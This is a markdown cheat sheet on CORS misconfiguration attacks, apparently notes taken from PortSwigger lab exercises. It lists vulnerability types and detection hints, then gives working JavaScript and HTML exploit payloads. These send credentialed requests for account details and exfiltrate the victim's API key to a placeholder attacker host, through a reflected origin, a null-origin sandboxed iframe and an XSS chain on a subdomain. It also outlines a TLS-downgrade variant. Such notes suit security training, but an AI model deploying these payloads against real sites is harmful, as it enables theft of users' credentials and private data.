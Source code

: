 # CORS

## Types:

1. Server-generated ACAO header from client-specified Origin header
2. Errors parsing Origin headers
3. Whitelisted null origin value
4. Exploiting XSS via CORS trust relationships
5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials 
---

## How to find each type:

1. Server-generated ACAO header from client-specified Origin header
- Attempt to use a random origin in the `Origin` header.
- See if the origin is reflected in the  `Access-Allow-Control-Origin` header.
2. Errors parsing Origin headers
- See if you can use subdomains or domains that end with the whitelisted domain.
3. Whitelisted null origin value
- Put `null` in the origin header and see if it is reflected.
4. Exploiting XSS via CORS trust relationships
- Check to see if subdomains are allowed in the `Access-Allow-Control-Origin` header.
- If they are, see if there is XSS on these domains.
5. Breaking TLS with poorly configured CORS
-
6. Intranets and CORS without credentials 
-
---

## How to exploit each type:

1. Server-generated ACAO header from client-specified Origin header
```js
<script>
  function getadmin() {
      var res = JSON.parse(this.response)
      fetch("https://<your-exploit>/accountdetails?" + res.apikey);
  }
  
  const request = new XMLHttpRequest();
  request.addEventListener("load", getadmin);
  request.open("GET", "https://<your-id>/accountdetails", true);
  request.withCredentials = true;
  request.send();
</script>
```
2. Errors parsing Origin headers
- If `normal-website.com` is ok then try `hackersnormal-website.com`.
3. Whitelisted null origin value
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://<your-id>/accountdetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var res = JSON.parse(this.response)
location = 'https://<your-exploit>/accountdetails?' + res.apikey;
};
</script>"></iframe>
```
4. Exploiting XSS via CORS trust relationships
- Use XSS with the first CORS exploit:
  ```html
  <script>
    location="http://subdomain/?param=xss
  </script>

  hackvertor to urlencode
  <@urlencode><script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://<id>/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var res = JSON.parse(this.response); location='https://<exploit>/accountDetails?key='+res.apikey;};</script><@/urlencode>

  Portswiggers solution:
  <script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://<id>/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://<exploit>/log?key='%2bthis.responseText; };%3c/script>
  ```
5. Breaking TLS with poorly configured CORS
- This attack involves the following steps:
  - The victim user makes any plain HTTP request.
  - The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`
  - The victim's browser follows the redirect.
  - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: `https://vulnerable-website.com`
  - The victim's browser makes the CORS request, including the origin: `http://trusted-subdomain.vulnerable-website.com`
  - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
  - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
6. Intranets and CORS without credentials 
-
---

## Other important notes:
- Look for the `Access-Allow-Control-Origin` header.
